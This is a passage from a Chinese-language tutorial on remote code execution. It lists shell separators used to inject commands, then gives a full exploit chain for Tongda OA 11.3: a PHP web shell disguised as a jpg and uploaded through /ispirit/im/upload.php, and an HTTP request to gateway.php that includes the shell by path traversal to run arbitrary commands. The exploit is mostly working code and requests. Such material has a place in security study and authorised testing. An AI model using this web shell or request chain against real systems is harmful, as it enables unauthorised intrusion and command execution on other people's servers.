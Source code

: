 **Linux**系列支持的管道如下所示：  
```
";":执行完前面的语句再执行后面的。如：ping 127.0.0.1；whoami
"|"：显示后面语句的执行结果。如：ping 127.0.0.1 | whoami
"||"：当前面的语句执行出错时，执行后面的语句。例如：ping 127.0.0.1 || whoami
"&"：如果前面的语句为假则直接执行后面的语句，前面的语句可真可假。如：Ping 127.0.0.1 &whoami
"&&"：如果前面的语句为假则直接出错，也不执行后面的，前面的语句只能为真。如：ping 127.0.0.1&& whoami

```  
## 常见RCE的类型   
### 若是发现了基础危害不大的漏洞，不建议直接提交的，而是应该想办法看，能不能对该漏洞进行升级，扩大其危害。比如文件包含漏洞，威力不大，如果与RCE结合起来，危害就不一样了。文件包含不算常见，经常出现在php程序中。文件上传漏洞导致RCE  
  
**环境**：通达OA11.3  
  
在/ispirit/im/upload.php 中上传文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v4Qrp5RsicPia2VLnC1OYy80xyj0RlR9HnZWHTAhh0RFicbKdyqJMcuusVKYggLgoiaxtKUuUs6icy2GuQ/640?wx_fmt=png&from=appmsg "")  
  
文件内容  
```
<?php
//保存为jpg
 $command=$_POST['cmd'];
    $wsh=new COM("Wscript.Shell");  
    $exec=$wsh->exec("cmd.exe /c ".$command);  
    $stdout = $exec->StdOut();  
    $stroutput = $stdout->ReadAll();  
    echo $stroutput;
?>

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v4Qrp5RsicPia2VLnC1OYy80xXWrlop0TPPk5ibOekDZI5ygb8AVD655PCia6slIZa29Uib2kEx1I8eeJg/640?wx_fmt=png&from=appmsg "")  
  
2003是文件夹名，1084355136|test.jpg是文件名,要把 | 修改成点，请求相对应版本的gateway.php ，修改对应版本路径文件，和对应图片马上传的路径和文件名，header头添加Content-Type: application/x-www-form-urlencoded  
  
**执行任意命令**  
```
POST /ispirit/interface/gateway.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 69

json={"url":"/general/../../attach/im/2003/上传的文件名.jpg"}&cmd=whoami（可以是任意命令）

```  
  